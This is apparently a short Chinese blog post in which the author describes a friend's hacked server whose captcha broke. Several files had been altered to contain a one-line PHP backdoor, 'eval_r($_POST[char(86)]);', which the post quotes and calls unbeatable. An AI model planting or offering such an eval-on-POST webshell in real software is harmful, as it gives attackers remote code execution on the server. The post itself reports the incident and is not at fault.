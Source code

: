 ```yaml
---
id: 258
title: 一句话后门……PHP
date: 2018-10-10T14:14:43+08:00
author: 徐艺洲
layout: revision
guid: http://www.fireidea.com/archives/258
permalink: /archives/258
---
```

<div id="sina_keyword_ad_area2" class="articalContent   ">
  今天一个朋友服务器被攻击<br />验证码打不开了，奇怪中<br />打开一看几个文件被改了<br />里面加了一句<br />eval_r($_POST[char(86)]);<br />一地汗珠……<br />这个可真是一句无敌后门……</p>